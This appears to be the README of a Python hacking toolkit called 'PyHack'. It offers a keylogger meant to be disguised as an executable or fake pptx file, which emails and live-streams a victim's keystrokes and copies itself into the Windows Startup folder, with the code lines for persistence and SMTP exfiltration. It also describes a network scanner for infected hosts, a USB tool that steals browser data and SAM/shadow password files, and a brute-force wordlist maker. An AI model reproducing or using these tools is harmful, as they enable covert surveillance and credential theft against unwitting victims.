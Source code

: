 # PyHack
KEYLOGGER :
Keylogger is, obviously a keylogger. feel free to rename it, make a windows executable, false pptx file or whatever you want. This keylogger will send you emails of whatever the victim is tiping and, if you are in the same private network, provide a "live keylogger feature wich allows you to see what the vitcim is typing in live. 

This keylogger broadcasts the live on the port 8835, feel free to change it on the line :

self.socket.bind(('',8835))

Just modify the

shutil.copyfile("{}/keylogger.exe".format(os.getcwd()),"C:\\Users\\{}\\AppData\\Roaming\\Microsoft\\Windows\\Start Menu\\Programs\\Startup\\keylogger.exe".format(getpass.getuser()))


line by removing keyllogger.exe to the file name. this line will copy the script itself on the startup file of windows and make it start at each startup of the computer.
please also modify these line with your own email address.


msg['From'] = "exemple@gmail.com"
msg['To'] = COMMASPACE.join("exemple@gmail.com")

smtp.login("exemple@gmail.com","exemple_password")
smtp.sendmail("exemple@gmail.com","exemple@gmail.com",msg.as_string())

and if you are not using gmail, please modify the smtp server addres on the line :

smtp = smtplib.SMTP('smtp.gmail.com')


KEYLOGGER_RECEVER : 
Keylogger recever is a script you use in the same private network than your vitctim's computer to access the live keylogger. But to access the live, you will need the local ip address of the vitctim's computer. use the "virus_scanner" script to perform a local network scan and get the ip address. by default the keylogger uses the 8835 port, if you haven't changed it this is the port you will need to specify. 

VIRUS_SCANNER :
Virus scanner is a script wich perform a network scan and show what ip addresses are infected. by default the keylogger uses the 8835 port, if you haven't changed it this is the port you will need to specify. This script may takes about 70/120 s to scan the entire network.

DATA CATCHER:
Data catcher is a script made to be run from an USB key, it simply copy copy all the sensitive data like Browsers data and SAM file from the computer to the USB key. Will not work if the app is not on her default installation path. Only the shadow file will be stolen on a linux machine.
WORDLIST_MAKER:
Simple wordlist maker, to make more specific bruteforce attacks.

